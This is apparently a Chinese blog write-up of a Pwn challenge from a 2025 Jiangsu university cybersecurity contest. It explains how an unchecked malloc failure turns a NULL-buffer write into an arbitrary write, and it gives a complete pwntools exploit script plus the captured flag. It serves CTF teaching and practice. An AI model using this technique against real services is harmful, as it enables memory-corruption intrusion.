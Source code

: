 ```yaml
---
title: "Write-ups: 2025 年江苏省第七届大学生网络空间安全知识技能大赛预赛"
published: 2025-09-21
updated: 2025-09-21
description: "2025 年江苏省第七届大学生网络空间安全知识技能大赛预赛 Pwn 方向 AK。"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


打个酱油辅助一下……难以想象整个比赛就这一道 Pwn，也是体验了一波 AK 完睡觉的感觉……

# Pwn

## Description

- Category: Pwn

## Write-ups

保护全开，不过就一个很小的 main 函数：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _QWORD *ptr; // rbx
  char *buf; // rbp
  size_t write_size; // rdx
  size_t size[5]; // [rsp+0h] [rbp-28h] BYREF

  size[1] = __readfsqword(0x28u);
  setup();
  puts("Welcome.");
  ptr = malloc(0x40000u);
  *ptr = 1;
  _printf_chk(1, "Leak: %p\n");
  _printf_chk(1, "Length of your message: ");
  size[0] = 0;
  _isoc99_scanf("%lu", size);
  buf = (char *)malloc(size[0]);
  _printf_chk(1, "Enter your message: ");
  read(0, buf, size[0]);
  write_size = size[0];
  buf[size[0] - 1] = 0;
  write(1, buf, write_size);
  if ( !*ptr )
    system("cat /flag");
  return 0;
}
```

一开始想的是堆溢出，后来调试了一下发现是不可能的（当时还因为没有 libc，手动 patch 出毛病，pwndbg 检查不了 heap 等一系列问题浪费了将近一小时……），然后想着有没有可能改 read 的 size、是不是和整数溢出有关……结果就是，都错了。

不过在思考整数溢出的时候，倒是给了我一些灵感。一开始也不知道如果和整数溢出有关的话应该做点啥，就直接输入经典的 -1 调试了一下，发现 malloc 因为请求值太大而失败了，于是乎，就有了下面的解决方案：

程序首先 malloc 返回一个地址，然后将其启始处的值设为 1。之后 if 判断这个值是否为 0, 为 0 就 cat flag 。所以目标自然是将这个值清零。

如果我们给 malloc 传入一个巨大的 size，malloc 会直接失败，返回 0，这样一来 buf 就变成了 NULL 。接着下面的 read 就会向空指针处写入值，也必然失败。由于程序没有检查 malloc 和 read 的返回值，所以会无视错误继续运行。接下来 `buf[size[0] - 1] = 0` 就相当于 `((char *)NULL)[size[0] - 1] = 0`，也就是 `*(size[0] - 1) = 0`。

由于 `size[0]` 是我们输入的 size，那我们就获得了一个任意地址写。令 size 为泄漏出来的地址加一，它就会将泄漏出来的地址处的值清空，成功绕过 if 检测。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    process,
    raw_input,
    remote,
)


FILE = "./patched"
HOST, PORT = "new.mhxaskills.cn", 33662

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    target.recvuntil(b"Leak: ")
    leak = int(target.recvline().strip(), 16)

    # raw_input("DEBUG")
    target.sendlineafter(b"Length of your message: ", str(leak + 1).encode())
    target.sendlineafter(b"Enter your message: ", b"A")

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`flag{15655165-6d36-e11d-4e83-5f14cb5d1da5}`]
